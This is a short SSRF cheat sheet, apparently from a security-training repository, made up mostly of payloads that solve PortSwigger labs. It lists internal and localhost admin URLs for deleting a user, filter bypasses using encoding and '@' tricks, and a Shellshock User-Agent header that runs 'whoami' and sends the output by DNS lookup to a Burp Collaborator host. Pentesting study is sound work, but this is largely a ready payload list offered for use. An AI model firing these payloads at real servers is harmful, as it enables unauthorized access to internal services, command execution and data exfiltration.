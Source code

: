 # Server-Side Request Forgery - SSRF
> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.

## SSRF Blind
Change every param to: http://subdomain.burpcollaborator.net

## SSRF Reflected
1) http://
2) http://$domain - http://subdomain.$domain
3) http://192.168
4) http://127

SSRF vulnerabilities are most commonly encountered in functionality associated with:

* PDF generation e.g. Generate PDF reports, Credit Card statements;
* ile Upload e.g. Uploading scanned documents, image files, etc.

## PORTSWIGGER
1) search stockApi=http://localhost/admin/delete?username=carlos
2) http://192.168.§0§.§1§:8080/admin
3) http://127.0.0.1/ - http://127.1/ - http://127.1/admin - http://127.1/%2561dmin
4) http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
5) /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
6) User-Agent: () { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net + Referrer: http://192.168.§0§.§1§:8080,443,80

## Reference
Search Web Services and test ssrfs payloads:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md
